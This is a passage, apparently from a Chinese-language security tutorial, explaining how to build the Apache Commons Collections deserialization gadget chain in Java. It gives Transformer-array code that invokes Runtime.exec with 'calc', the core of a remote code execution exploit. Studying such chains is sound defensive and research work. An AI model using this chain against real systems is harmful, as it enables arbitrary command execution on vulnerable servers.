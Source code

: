 然后就可以这样构造：
```java
        Transformer[] Transformers = new Transformer[]{
                new InvokerTransformer("getDeclaredMethod", new
                        Class[]{String.class, Class[].class}, new
                        Object[]{"getRuntime", null}),
                new InvokerTransformer("invoke", new
                        Class[]{Object.class, Object[].class}, new Object[]{null, null}),
                new InvokerTransformer("exec", new
                        Class[]{String.class}, new Object[]{"calc"})
        };
```

但是如何才能指定`Runtime.class`呢？也就是`this.iTransformers[i].transform(object);`的`object`为`Runtime.class`

## org.apache.commons.collections.functors.ConstantTransformer

`ConstantTransformer`这个类的构造方法可控制`transform`的返回值，这样就能控制指定`Runtime.class`：

![image-20240306225245387](assets/image-20240306225245387.png)

然后就可以这样构造：

```java
Transformer[] Transformers = new Transformer[]{
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod", new
                        Class[]{String.class, Class[].class}, new
                        Object[]{"getRuntime", null}),
                new InvokerTransformer("invoke", new
                        Class[]{Object.class, Object[].class}, new Object[]{null, null}),
                new InvokerTransformer("exec", new
                        Class[]{String.class}, new Object[]{"calc"})
        };
```
